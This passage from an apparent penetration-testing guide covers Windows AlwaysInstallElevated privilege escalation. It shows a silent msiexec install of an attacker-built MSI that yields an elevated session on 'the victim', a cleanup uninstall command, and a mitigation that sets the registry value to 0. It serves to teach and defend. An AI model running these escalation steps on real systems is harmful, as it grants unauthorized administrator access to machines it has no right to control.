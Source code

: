 ```
msiexec /quiet /qn /i nickvourd.msi
```

Outcome:

![AlwaysInstallElevated-New-Session](/Pictures/AlwaysInstallElevated-New-Session.png)

5) Confirm that the new session is with elevated privileges:

![AlwaysInstallElevated-Elevated-Privileges](/Pictures/AlwaysInstallElevated-Elevated-Privileges.png)

:information_source: In order to remove MSI file from the victim, run the following command (in a unprivilege session):

```
msiexec /q /n /uninstall nickvourd.msi
```

## Mitigation

To mitigate the `AlwaysInstallElevated` vulnerability, it is recommended to set the `AlwaysInstallElevated` value to `0` in both the `HKEY_LOCAL_MACHINE` and `HKEY_CURRENT_USER` hives in the Windows Registry.

## References
